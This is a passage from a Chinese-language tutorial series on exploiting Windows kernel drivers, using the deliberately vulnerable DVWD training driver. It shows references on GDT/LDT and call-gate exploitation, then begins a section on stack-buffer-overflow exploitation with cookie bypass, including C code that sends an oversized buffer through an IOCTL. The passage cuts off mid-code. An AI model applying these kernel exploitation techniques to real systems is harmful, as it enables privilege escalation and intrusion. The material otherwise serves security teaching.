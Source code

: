 ```
  }
 }

 return TRUE;
}

```

7. w00t ?
---------

* * *

利用运行结果如下：

![enter image description here](http://drops.javaweb.org/uploads/images/9219006ee51176455ec1edf4a36052435537581f.jpg)

再次w00t !!

引用 0x02
-------

* * *

(1] GDT and LDT in Windows kernel vulnerability exploitation, by Matthew "j00ru" Jurczyk & Gynvael Coldwind, Hispasec (16 January 2010)

(2] Intel Manual Vol. 3A & 3B http://www.intel.com/products/processor/manuals/

(3] Task State Segment (TSS) http://en.wikipedia.org/wiki/Task_State_Segment

(4] Call-Gate, by Ivanlef0u http://www.ivanlef0u.tuxfamily.org/?p=86

0x04 利用基于栈的缓冲区溢出弱点-(绕过 cookie)
==============================

* * *

在这篇文章中,当我们把很大的buffer传递到驱动（有DEVICEIO_DVWD_STACKOVERFLOW IOCTL）中时,我们将利用驱动中基于栈的缓冲区溢出弱点.主要是我们已得到位于内核态中的buffer且我们可以像在用户态中那样溢出它（内核态中的缓冲区溢出概念和用户态中的溢出概念相同）,正如我们在这个系列中的第一篇文章中看到的,使用RtlCopyMemory()函数是一件很糟糕的事.

首先我们将明白在驱动中检测弱点的方法接着我们将成功利用进程

1. 触发弱点
-------

* * *

为了触发弱点,我已写了一小段代码：

```
/* IOCTL */
#define DEVICEIO_DVWD_STACKOVERFLOW  CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA) 

int main(int argc, char *argv[]) {

 char junk[512];
 HANDLE hDevice;

 printf("--[ Fuzz IOCTL DEVICEIO_DVWD_STACKOVERFLOW ---------------------------\n");

 printf("[~] Building junk data to send to the driver...\n");
 memset(junk, 'A', 511);
 junk[511] = '\0';

 printf("[~] Open an handle to the driver DVWD...\n");
 hDevice = CreateFile("\\\\.\\DVWD", 
    GENERIC_READ | GENERIC_WRITE, 
    FILE_SHARE_WRITE | FILE_SHARE_READ | FILE_SHARE_DELETE, 
```